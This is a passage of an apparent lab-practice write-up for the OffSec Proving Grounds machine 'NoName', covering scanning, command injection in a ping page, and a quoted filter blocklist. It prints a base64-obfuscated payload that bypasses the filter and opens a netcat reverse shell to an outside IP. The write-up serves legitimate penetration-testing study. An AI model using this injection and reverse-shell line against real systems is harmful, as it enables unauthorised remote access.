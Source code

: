 ```yaml
---
title: OffSec PG - NoName, SoSimple, OnSystemShellDread, Photographer
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## NoName

### Enumeration

Machine IP &rarr; `192.168.225.15`

#### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.225.15`

OS Detection &rarr;  `os_info`

| **Port** | **Service** | **Other details (if any)**     |
| -------- | ----------- | ------------------------------ |
| 80       | HTTP        | Apache httpd 2.4.29 ((Ubuntu)) |

#### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.225.15 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/raft-small-words.txt -x html,php,txt`

Directories/files listed &rarr;

- index.php
- icons/
- superadmin.php

### Exploitation

Looking at `superadmin.php`, it seems like a ping command and thus may be vulnerable to command injection. Using `;` didn't work, neither did `&&`. `|` did work and using it to print the code of the file like `127.0.0.1 | cat superadmin.php` shows that `";","&&","/","bin","&"," &&","ls","nc","dir","pwd"` are all blocked.

Therefore, escaping the blocks by using

```
127.0.0.1 | `echo bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMjI1IDMwMDIK | base64 -d`
```

This gives a shell as the `www-data` user and thus the user flag.

### Privilege Escalation
